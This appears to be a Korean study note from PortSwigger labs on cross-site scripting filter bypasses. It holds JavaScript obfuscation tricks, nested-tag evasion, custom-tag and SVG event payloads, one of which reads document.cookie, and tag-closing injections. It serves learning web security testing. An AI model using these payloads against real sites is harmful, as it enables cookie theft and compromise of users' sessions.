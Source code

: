 - XSS cheat sheet = [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 

코드를 실행할 수 있는 HTML요소는 <script>이외에도 많다. 
그리고 스크립트를 포함할 수 있는 속성들도 많다. 
대표적으로 이벤트핸들러를 지정하는 on으로 시작하는 속성들. 

속성에 쓸때는 &lt; 같은 엔티티를 포함할 수 있다. 그래서 필터를 우회하기 쉬움. 

- **JS 필터우회** 

| 원래는 이건데.. | 이걸로 대체 가능!       |
| --------------- | ----------------------- |
| alert           | window['al'+'ert']      |
| window          | this, self              |
| eval(code)      | Function(code)          |
| Function        | isNaN['constr'+'uctor'] |
| "code", 'code'  | \`code\`, /code/        |

- <scrscriptipt>alert(1)</scrscriptipt> script를 제거하는 필터링에는 겹쳐쓰는 방식으로 우회가능 

- 모든 태그가 막혀있을 경우에는 커스텀태그를 만들어서 삽입할 수 있다. 

```html
<script>
location='https://your-lab-id.web-security-academy.net/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'; 
</script> 
```

위 코드는 'xss'라는 커스텀 태그를 만들고, 거기에 onfocus이벤트를 넣어서 실행이 되게 했다. 

- href같은 속성이 막힌 경우에는 svg벡터 태그를 이용할 수 있다. 

```html
<!--animate, attributeName같은 svg속성을 이용하여 스크립트를 실행한다.-->
Host/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>
```

```html
<!--discard태그가 막히지 않은 경우에는 이런식도 가능.-->
Host/?search="><svg><discard onbegin=alert(1)>
```

- 만약에 삽입한 텍스트가 태그의 속성으로 들어가는 경우에는 태그를 먼저 닫아준다. 

```html
<!--앞에 "> 로 태그를 닫을 수 있다. -->
"><script>alert(document.domain)</script>

<!-- </tag> 로 태그를 닫을 수 있다. -->
</script><script>alert(1)</script> 
```

